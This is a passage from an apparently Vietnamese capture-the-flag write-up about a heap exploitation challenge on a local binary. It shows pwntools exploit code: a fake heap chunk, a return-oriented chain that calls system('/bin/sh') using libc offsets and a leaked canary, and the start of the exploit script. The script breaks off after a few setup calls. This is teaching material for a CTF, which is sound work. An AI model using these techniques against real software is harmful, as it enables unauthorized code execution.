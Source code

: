 ```python 
payload = p64(0) + p64(0) + p64(0) + p64(stack) + p64(0)+ p64(0) + p64(0) + p64(0)+ p64(0) + p64(0)  + p64(0x71)
edit(payload)
delete(4) # vì idx đã lớn hơn 7 nên ta cần free 1 thằng cũ để có malloc tiếp
delete(20)
ret = libc.address + 0x0000000000029cd6
pop_rdi = libc.address + 0x000000000002a3e5
payload = p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) 
payload += p64(ret)
payload += p64(libc.sym['system'])
add(0x60, b'a'*24 + p64(canary) + p64(0) + payload)
p.sendlineafter(b'> ', b'5')
```

![image](https://github.com/gookoosss/CTF/assets/128712571/e51caa7f-a105-4ffa-970e-27f34008322f)


## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./example_hos_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process([exe.path])
        
gdb.attach(p, gdbscript = '''
b*main+400
b*main+528
b*main+628
b*main+695
b*main+754
b*main+795
c           
''')

input()   

def add(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: \n', str(size))
    p.sendafter(b'Content: \n', data)

def delete(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: \n', str(idx))

def edit(data):
    p.sendlineafter(b'> ', b'3')
    p.send(data)

def show():
    p.sendlineafter(b'> ', b'4')

add(0x500, b'a' * 8)
add(0x500, b'b' * 8)
delete(0)
add(0x500, b'a')
```